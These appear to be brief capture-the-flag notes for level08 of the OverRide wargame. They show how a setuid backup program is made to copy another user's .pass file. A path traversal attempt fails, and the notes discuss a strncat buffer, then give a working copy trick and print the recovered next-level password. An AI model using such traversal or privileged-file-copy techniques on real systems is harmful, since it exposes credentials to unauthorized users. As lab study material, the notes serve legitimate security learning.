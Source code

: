 level08@OverRide:~$ ./level08 "../../../../home/users/level09/.pass"
ERROR: Failed to open ./backups/../../../../home/users/level09/.pass


- opens backups/.log to write logs
- opens target file to read content with av[1]
- opens target file to write flag with strncat("./backups", av[1], strlen(av[1]))

strncat 

buffer 100

"./backups" (9)

+ 

"../../../../home/users/level09/.pass" (36)

"../../../../../../../../../../../../../../../../../../../../../../../../../../../../home/users/level09/.pass"


level08@OverRide:~$ ./level08 ".pass"
level08@OverRide:~$ ls -la backups/
total 8
drwxrwx---+ 1 level09 users    80 Nov 22 18:06 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    66 Nov 22 18:08 .log
-r--r-----+ 1 level09 users    41 Nov 22 18:06 .pass
level08@OverRide:~$ cat backups/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

